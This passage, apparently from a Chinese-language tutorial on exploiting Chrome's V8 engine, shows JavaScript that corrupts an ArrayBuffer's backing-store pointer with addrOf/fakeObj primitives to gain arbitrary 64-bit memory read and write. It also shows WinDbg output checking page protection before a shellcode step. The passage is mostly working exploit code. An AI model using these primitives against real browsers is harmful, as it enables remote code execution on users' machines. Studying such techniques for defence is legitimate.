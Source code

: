 ```JS
		let view2 = new BigUint64Array(arrBuf2);
		view2[0] = ptr;
	}
};
```
接下来例子位尝试使用write64原语将值0x41414141n写入第二个数组的backing_store,代码如下
```JS
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);

// Create Array Buffers
let arrBuf1 = new ArrayBuffer(1024);
let arrBuf2 = new ArrayBuffer(1024);

// Leak Address of arrBuf2
print("[+] Leaking ArrayBuffer Address...");
let arrBuf2Addr = addrOf(arrBuf2);
print(`[+] ArrayBuffer Address: 0x${arrBuf2Addr.toString(16)}`);

// Corrupt Backing Store Pointer of arrBuf1 with Address to arrBuf2
print("[+] Corrupting ArrayBuffer Backing Store Address...")
let originalArrBuf1BackingStore = fakeObj(arrBuf1, arrBuf2Addr);

// Store Original Backing Store Pointer of arrBuf2
let view1 = new BigUint64Array(arrBuf1)
let originalArrBuf2BackingStore = view1[4]

// Construct our Memory Read and Write Primitive
let memory = {
	read64(addr) {
		view1[4] = addr;
		let view2 = new BigUint64Array(arrBuf2);
		return view2[0];
	},
	write64(addr, ptr) {
		view1[4] = addr;
		let view2 = new BigUint64Array(arrBuf2);
		view2[0] = ptr;
	}
};
print("[+] Constructed Memory Read and Write Primitive!");

// Write Data to Second Array Buffer
memory.write64(originalArrBuf2BackingStore, 0x41414141n);
%DebugPrint(arrBuf2);
```
再次配合Windbg进行调试，成功在arrObj2的backing_store指向的地址写入0x41414141
# 代码执行
实现任意读写以后下一步就是执行我们的shellcode,不能直接放入shellcode然后让v8执行，因为NX。可以使用Windbg在数组缓冲区的后备存储指针上使用vprot函数来验证,000001EC67C14030为backing_store地址
```C
0:009> !vprot 000001EC67C14030
BaseAddress:       000001ec67c14000
AllocationBase:    000001ec67bf0000
AllocationProtect: 00000004  PAGE_READWRITE
RegionSize:        000000000005e000
State:             00001000  MEM_COMMIT
Protect:           00000004  PAGE_READWRITE
Type:              00020000  MEM_PRIVATE
```
>vprot它用于查询虚拟内存页面的保护属性。vprot函数的语法为：!vprot Address